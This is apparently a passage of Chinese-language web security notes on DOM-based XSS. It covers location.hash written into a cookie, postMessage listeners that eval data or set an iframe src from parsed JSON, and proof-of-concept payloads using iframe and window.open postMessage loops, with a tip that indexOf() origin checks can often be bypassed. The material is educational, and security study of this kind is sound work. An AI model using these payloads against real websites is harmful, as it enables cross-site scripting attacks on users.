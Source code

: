     document.cookie = 'Url='+location.hash.slice(1);
    
这种由于location.hash可控所以我们可控制cookie中Url的值<br>
看Url值具体用法，才能体现具体危害<br>
如果url的值会输出到某个页面的`<a href="">`里，那点击之后就是个xss，也可以url跳转<br>

----**postMessage**


    <script>
    window.addEventListener('message', function(e){
        eval(e.data);
        });
    </script>
    
这里没有任何验证 直接eval 就会xss<br>
**payload**

    <iframe src="//www.xxxx.com" onload="this.contentWindow.postMessage('alert(1)','*')">

如果网页不允许iframe<br>

    <script>
    var popup = window.open('https://www.xxxx.com');
    function xss(){popup.postMessage("alert(1)","*")}
    setInterval(xss,1000);
    </script>
    
如果验证来源，视情况绕过<br>
最常见的是使用indexOf() 大多数情况可以绕过

解析json造成的xss

    <script>
                                window.addEventListener('message', function(e) {
                                    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                                    document.body.appendChild(iframe);
                                    try {
                                        d = JSON.parse(e.data);
                                    } catch(e) {
                                        return;
                                    }
                                    switch(d.type) {
                                        case "page-load":
                                            ACMEplayer.element.scrollIntoView();
                                            break;
                                        case "load-channel":
                                            ACMEplayer.element.src = d.url;
                                            break;
                                        case "player-height-changed":
                                            ACMEplayer.element.style.width = d.width + "px";
                                            ACMEplayer.element.style.height = d.height + "px";
                                            break;
                                    }
                                }, false);
                            </script>
                            